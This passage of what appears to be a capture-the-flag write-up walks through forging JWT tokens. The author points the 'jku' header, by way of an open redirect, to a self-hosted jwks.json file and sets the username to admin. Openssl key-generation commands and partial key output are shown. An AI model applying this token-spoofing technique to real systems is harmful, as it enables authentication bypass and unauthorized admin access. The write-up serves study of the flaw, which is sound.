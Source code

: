 Basically, the exploit requires us to generate a private-public key pair, and use that to spoof tokens after replacing the `jku` parameter with a URL to our machine's own `jwk.json` file. So first, we need to generate a key pair:

```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```

Afterwards, we can head back to jwt.io and create a new token with a new URL. Since there's a `redirect` functionality available, I'll just use that to make it request the `jwks.json` file to our machine. Then, we can also change the username to `admin`.&#x20;

<figure><img src="../../../.gitbook/assets/image (3708).png" alt=""><figcaption></figcaption></figure>

Then we need to create the `jwks.json` file. This can be done by first downloading the format from the machine, and then replacing the values in it with our own key pair's.&#x20;

```
$ openssl rsa -in publickey.crt -pubin -text -noout             
Public-Key: (2048 bit)
Modulus:
    00:c4:2e:63:41:93:eb:5b:6a:bf:6e:a9:41:8b:5f:
    ec:28:35:f1:c3:50:b3:dc:21:40:43:06:6b:f0:ca:
    d4:8a:03:9f:73:a4:75:79:6a:f6:0d:53:d0:7c:d1:
    21:d4:cc:fd:5d:bf:4d:7b:ac:28:c6:e1:a9:c3:97:
    4b:9f:46:7f:52:de:33:a7:27:e8:e2:eb:67:07:56:
    b2:99:94:58:c5:02:9c:c6:de:cf:8f:12:b5:3b:51:
    02:9a:5e:7a:98:cc:83:1c:20:67:8d:c3:e6:8a:92:
    ce:23:47:f3:6b:0b:7a:73:0b:a8:8e:d9:36:97:09:
    00:86:3e:9e:c9:97:b1:be:17:76:28:3e:1a:31:b2:
    a8:b6:8f:26:0a:2f:ae:14:65:d8:87:c4:6b:6d:49:
    40:4d:3a:fb:10:c3:b8:9d:33:80:8e:e4:71:97:f3:
    26:85:33:8c:6e:79:e3:61:7b:66:ae:c3:dc:ee:78:
```